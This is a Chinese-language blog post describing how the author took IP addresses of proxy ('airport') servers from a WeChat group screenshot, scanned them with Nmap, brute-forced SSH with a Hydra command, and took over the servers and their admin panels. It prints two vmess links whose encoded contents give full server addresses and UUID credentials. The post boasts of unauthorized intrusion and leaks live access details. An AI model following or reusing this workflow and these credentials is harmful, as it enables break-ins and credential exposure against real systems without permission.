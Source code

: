 ```yaml
---
title: 非法搭建机场获取权限
author: APT - 0x44LL
date: 2021-12-25
category: Jekyll
layout: post
---
```


## 天网恢恢 疏而不漏
![smiley](/public/DocsPics/20220207155219.png)

根据wx群聊看到有人发机场截图并暴露了IP地址
![smiley](/public/DocsPics/20220207155341.jpg)

于是全部记录了下来，依次排列好；

```
168.63.xxx.106
20.187.xxx.80
20.205.xxx.204
20.212.xxx.178
```

快速Nmap扫描了一波；
![smiley](/public/DocsPics/20220207155424.png)

看到22端口开放
Hydrawin版本加载字典进行端口爆破，当然要使用上我亲自开过光的字典和飞升过的动态IP了

```
hydra.exe -l root -P 22 开光字典.txt -vV -o ssh.log -e ns 127.0.0.1 ssh
```

![smiley](/public/DocsPics/20220207155510.png)

**于是就这样进入了服务器...**


数据库
面板账户唯一登入密码
![smiley](/public/DocsPics/20220207155528.png)

所有的管理后台面板全部拿到权限
![smiley](/public/DocsPics/20220207155602.png)
![smiley](/public/DocsPics/20220207155713.png)

```
vmess://ewogICJ2IjogIjIiLAogICJwcyI6ICJBWi1GMlMtSEstODAtV1MiLAogICJhZGQiOiAiMTY4LjYzLjIxMi4xMDYiLAogICJwb3J0IjogODAsCiAgImlkIjogIjRjOTA4ZTgxLWM2YzYtNGNiNy1lZDQ5LWRjODhlN2NkZjkxNCIsCiAgImFpZCI6IDAsCiAgIm5ldCI6ICJ3cyIsCiAgInR5cGUiOiAibm9uZSIsCiAgImhvc3QiOiAiZ3cuYWxpY2RuLmNvbSIsCiAgInBhdGgiOiAiIiwKICAidGxzIjogIm5vbmUiCn0=
```

```
vmess://ewogICJ2IjogIjIiLAogICJwcyI6ICJBWi1CMVMtSEstODAtV1MiLAogICJhZGQiOiAiMjAuMjA1LjExOC4yMDQiLAogICJwb3J0IjogODAsCiAgImlkIjogIjhjYzgwOWQzLTk1YzAtNDg4Yi1jZmUwLTk4ZWVlZDM4MzYzYiIsCiAgImFpZCI6IDAsCiAgIm5ldCI6ICJ3cyIsCiAgInR5cGUiOiAibm9uZSIsCiAgImhvc3QiOiAiZ3cuYWxpY2RuLmNvbSIsCiAgInBhdGgiOiAiIiwKICAidGxzIjogIm5vbmUiCn0=
```
![smiley](/public/DocsPics/20220207155731.png)
很遗憾的是这些服务器都没什么东西；

查询了一下是刚开不久的；
